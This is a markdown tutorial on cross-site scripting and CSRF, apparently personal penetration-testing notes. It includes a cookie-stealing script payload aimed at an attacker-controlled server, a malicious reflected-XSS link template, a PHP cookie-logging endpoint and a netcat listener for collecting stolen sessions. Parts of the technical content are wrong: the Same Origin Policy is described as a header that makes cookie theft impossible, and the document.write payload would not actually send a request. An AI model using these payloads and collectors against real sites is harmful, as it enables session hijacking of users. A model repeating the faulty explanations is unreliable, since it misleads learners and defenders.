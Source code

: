 # Cross-Site Scripting (XSS)

### What is XSS?
XSS is a client side vulnerability that targets users by injecting client-side scripts into the webpage/application to perform malicious attacks. XSS occurs when user input is output onto a page without correctly having it's encoding escaped. This causes the browser to execute these scripts when the page loads as it is unaware that it shouldn't be trusted. It is commonly used to steal users session cookies `document.cookie` or make requests from the users client. 

### What does XSS Look Like?
XSS is commonly just malicious javascipt contained within a HTML script tag and targetting the users cookie such as `<script>document.write("https://www.yourserver.com/?cookie="+document.cookie)</script>`. This payload makes a request to a server that the attacker owns, appending the users session cookie in the URL request. It is important to have a server or endpoint that you control to collect the cookies. This type of payload is not always possible and sometimes filtering bypasses will be required.

### Types of XSS

##### Reflected XSS
Reflected XSS occurs when an input field or URL parameter is reflected back onto the page. A common example of this is a searched phrase being display on the search results page. In this case an attacker may send a link to a victim where the search query is an xss payload.

`www.website.com/?search=<script>{xss_payload}</script>`

##### Stored XSS
Stored XSS is when the XSS payload is stored server-side before being reflected onto the client. In this case stored XSS is persistant and affects every user visiting webpages where the XSS payload is displayed. A common example of this is an attacker inserting an XSS payload into a message/comments field and posting it. This payload is then stored and visible to multiple users who view the message.

### Where to find XSS?
XSS can potentially occur wherever there is user controlled input. 
- Input Fields (Including Hidden Fields)
- URL Paramaters or Just in the URL in general

### XSS Filtering
Filtering techniques...
- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [XSS Shortening Cheatsheet](https://labs.neohapsis.com/2012/04/19/xss-shortening-cheatsheet) 

### CSRF
CSRF stands for Cross-Site-Request-Forgery and is a type of attack that targets authenticated users where the attacker gets the user to make a malicious request on their behalf. Since the user is authenticated and is the one making the request it is seen as valid by the server. This can be done by getting the user to visit a malicious page that makes the request using the cookie for the targeted site. However this is not always possible as sometimes web applcations use Same Origin Policy and CSRF tokens to prevent this attack. However if you mange to find an XSS within the web application itself then you can bypass both of these prevention techniques.

##### Same Origin Policy
Same Origin Policy is a header field that specifies what content is allowed to render on the page. It is important as it mitigates the impact of XSS as scripts will now no longer run or make calls to URL's not belonging to the same domain the web application is hosted on. This makes it impossible for users to steal credentials through XSS as well ruling out some filtering techniques. It is important to realise that XSS is still possible if you can inject a script into the web application and perform a CSRF attack.

### Attacker Server (Collecting Cookies)
In order to steal users session cookies you will require a server or endpoint that you control to send the cookies to. This can be done multiple ways, hosting a simple web server either in python or nodejs that just grabs the URL request and appends it to a file. Below are examples of a php script that can be used, it is good as the server doesn't have to actually run and a netcat command that can be used to listen to requests. [XSS Hunter](https://xsshunter.com/) is also a good alternative that can be used if setting up a server is difficult. It provides a custom URL that you can used to view the requests made to the url to collect info.

##### PHP Server
```
<?php
file_put_contents("user_session_cookies.txt", $_GET["cookie"]."\n", FILE_APPEND);
?>
```
##### Netcat
`nc -l 80`